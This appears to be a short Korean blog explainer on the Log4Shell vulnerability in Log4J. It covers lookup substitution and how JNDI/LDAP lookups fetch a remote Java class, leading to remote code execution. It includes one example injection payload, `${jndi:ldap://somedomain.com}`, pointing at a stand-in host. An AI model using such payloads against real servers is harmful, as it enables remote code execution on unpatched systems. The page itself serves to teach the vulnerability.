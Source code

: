 ## Log4J

### Log4J 원인

Log4J는 “Message Lookup Substitution”이라는 기능을 제공하는데, 해당 기능은 특정 문자열 다른 문자열로 치환되도록한다. (Message Lookup Substitution : [https://logging.apache.org/log4j/2.x/manual/lookups.html](https://logging.apache.org/log4j/2.x/manual/lookups.html))

예를 들면 `Running ${java:runtime}` 이라는 문자열이 Logging되면 다음으로 바뀌면서 저장된다, `Running Java version 1.7.0_67`.

그리고 이 상황에서 JNDI와 LDAP 프로토콜을 함께사용하면 특정 서버로부터 Java Class를 갖고와 Deserialize를 하여 RCE가 가능하다. ( Ex : `${jndi:ldap://somedomain.com}` ) 

### Log4J Scenario

정말 간략하게 요약하자면 Log4Shell 취약점이 발생한것은, Log가 서버에 저장되면서, JNDI Lookup이 실행되어 타 서버로 부터 파일을 갖고오면서 발생한다. 이때 이 파일은 Java .class 파일로, 실행 파일이다.

Log4J는 JNDI API를 이용하여 서비스 제공자들로부터 Naming 및 Directory Service를 제공받는다. 

Ex: LDAP, COS, RMI, DNS, 등

만약 모든 것이 제대로 동작한다면, **`${jndi:logging/context-name}`**와 같은 코드가 프로그램 어딘가에 있을것이다.

![정상적인 Log4J 프로세스](/assets/img/20220903_5/Untitled%206.png)

정상적인 Log4J 프로세스

다음은 Log4Shell의 Exploit과정이다.

![공격 Flow](/assets/img/20220903_5/Untitled%207.png)
